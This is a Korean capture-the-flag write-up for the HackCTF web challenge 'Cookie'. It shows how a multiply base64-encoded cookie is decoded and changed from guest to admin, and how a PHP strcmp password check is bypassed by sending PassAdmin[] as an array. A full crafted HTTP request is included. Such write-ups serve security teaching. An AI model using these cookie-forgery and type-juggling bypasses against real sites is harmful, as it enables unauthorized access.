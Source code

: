 ```yaml
---
title: 'HackCTF - WEB - Cookie'
date: 2020-04-05 21:04:76
---
```

# HackCTF - WEB - Cookie

일단 문제 사이트에 접근을 합니다.

![image-20191211095951136](image/HackCTF - WEB - Cookie/image-20191211095951136.png)

그러면 이런식으로 쿠키에 무언가가 있다는 것을 암시하는 문구가 나옵니다.

이때 쿠키에 대해 살펴 보면 Cookie 값과 PassAdmin이라는 쿠키가 아래와 같이 보입니다.

![image-20191211100221391](image/HackCTF - WEB - Cookie/image-20191211100221391.png)

![image-20191211100246122](image/HackCTF - WEB - Cookie/image-20191211100246122.png)

이때 Cookie의 값을 보면 Base64의 범위에 속하는 것을 볼 수 있는데 한번 DeCoding을 해봅니다.

![image-20191211100842695](image/HackCTF - WEB - Cookie/image-20191211100842695.png)

한번 Decoding를 했을때 결과 값이 Base64여서 결과 값이 나올때까지 반복하여 DeCoding를 하니 **{"id":"2","type":"guest"}** 값이 나오는데 이때 guest를 admin으로 변경하여 EnCoding를 하여 서버로 전송해봅니다.

![image-20191211102846789](image/HackCTF - WEB - Cookie/image-20191211102846789.png)

패스워드에 대해 틀렸다고 경고를 출력 하는 것을 볼 수 있는데 PassAdmin에 대해서도 우회를 해야 한다는 것을 알 수가 있었습니다.

PHP의 느슨한 비교를 이용하여 공격을 해야 하는 것으로 예상이 됩니다.

PHP의 strcmp(arg1,arg2)함수는 arg1이 더 크면 0보다 큰 값(양수)을 리턴하고 arg2가 더 크면 0보다 작은 값(음수)을 리턴합니다. 그리고 마지막으로 값이 같을때 0을 리턴하게 되는데 이때 **php5.3** 버전에서는 Array타입과 비교를 하면 Null를 리턴을 하게 되는 취약점이 있습니다. 그리고 php의 느슨한 비교를 이용하여 0==null를 비교하게 되면 true를 리턴하게 됩니다. 이제 이점을 이용해서 공격을 해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2027
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: Hm_lpvt_29884b6641f1b5709cc89a8ce5a99366=1575983513; Hm_lvt_29884b6641f1b5709cc89a8ce5a99366=1575978988; _fbp=fb.1.1575978981442.1558009542; _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; _hist=TEST%24etc%20passwd; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXVmRTZEdGWE5HbG1VVDA5; PassAdmin[]=; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; wcs_bt=55c48ac9e22bec:1575983512
Connection: close
```

![image-20191211112526165](image/HackCTF - WEB - Cookie/image-20191211112526165.png)
